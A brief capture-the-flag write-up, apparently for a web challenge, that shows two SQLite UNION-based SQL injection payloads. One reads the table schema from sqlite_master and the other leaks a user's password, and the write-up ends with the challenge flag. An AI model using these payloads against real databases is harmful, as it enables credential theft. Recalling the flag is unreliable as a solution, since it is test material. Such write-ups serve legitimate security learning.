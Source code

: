 Table using SQLite3 (from source and error message on input `'`)     

Find names of columns with:     
`1 = 2 union select 1,sql from sqlite_master --`     

Leak password by canceling out the first term and unioning with password     
`1 = 2 union select 1,password from users where id=1 --`     

Flag is `WEBSEC{Simple_SQLite_Injection}`

